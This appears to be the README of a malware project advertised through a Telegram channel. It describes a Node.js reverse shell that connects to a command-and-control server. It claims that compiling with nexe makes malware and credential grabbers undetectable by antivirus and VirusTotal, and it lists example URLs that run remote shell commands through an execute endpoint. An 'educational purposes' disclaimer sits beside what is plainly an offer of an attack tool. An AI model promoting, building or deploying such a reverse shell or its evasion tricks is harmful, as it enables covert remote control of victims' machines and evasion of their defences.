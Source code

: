 ** t.me/extortment for more projects like this**

Project Name: Dudullu Kabusu | Nightmare of dudullu.

Dudullu is a hood in turkey that I used to live in.

What is this project? 

This project is a reverse shell/terminal that connects to a CNC made in Node.js

Why Node.js? 

When you make a malware/grabber in Node.js and compile it with nexe, it becomes fully undetectable by most of the popular AVs and Virustotal.

How long it took to make it?

A night with no sleep probably (1-2 hours) 

Why did I make it?

I made it for educational purposes, I am not responsiable for any fraudulent/malicious activies with this source code

YOU HAVE TO MODIFY THIS CODE FOR USAGE

api example

host:port/execute?mode=execute_command&content=echo&arg=gay&arg2=imgay
host:port/execute?mode=execute_command&content=echo&arg=gay
host:port/execute?mode=execute_command&content=ls